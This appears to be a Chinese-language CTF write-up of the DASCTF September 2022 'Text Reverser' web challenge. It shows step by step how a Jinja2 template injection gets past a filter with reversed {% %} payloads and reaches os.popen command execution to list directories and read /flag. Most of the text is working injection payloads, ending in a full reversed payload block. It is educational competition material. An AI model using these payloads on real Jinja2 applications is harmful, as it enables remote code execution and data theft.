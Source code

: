 # DASCTF 2022年9月赛复现

## WEB

### Text Reverser

测试一下发现是模板注入，估计使用了 jinja2 模板

- 先用```{{ 3*3 }}```测试一下，然后发现有过滤

- 用 ```{% %}``` 替换 ```{{ }}```来绕过

- 发现绕是绕过去了，但是没有预期中的执行，观察到 output 出来的东西，是反着的，联想到题目叫 Text Reverser，想着是不是需要反转字符串输入

- 用 ```{% if 1 %}123{% endif %}``` 逆转过来的字符串测试一下，发现能执行

- 配合 print 进行输出，使用 ```{% print(''.__class__) %}``` 的反转

- 寻找子类 ```{% print(''.__class__.__base__.__subclasses__()) %}```

- 这里使用第213个子类，也就是```<class 'warnings.catch_warnings'>```这个子类
 ```{% print(''.__class__.__base__.__subclasses__()[213]) %}```

- 查看当前目录下文件
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')) %}```

- 查看根目录下文件 
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /").read()')) %}```

- 发现cat指令被过滤了，用```nl```代替```cat```读取文件，得到 flag
 ```{% print(''.__class__.__base__.__subclasses__()[213].__init__.__globals__["__builtins__"].eval('__import__("os").popen("nl /flag").read()')) %}```

整体 payload 如下

```python
}% fidne %{321}% 1 fi %{

}% )__ssalc__.''(tnirp %{

}% ))(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% )]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"sl"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"/ sl"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{

}% ))')(daer.)"galf/ ln"(nepop.)"so"(__tropmi__'(lave.]"__snitliub__"[__slabolg__.__tini__.]312[)(__sessalcbus__.__esab__.__ssalc__.''(tnirp %{
```

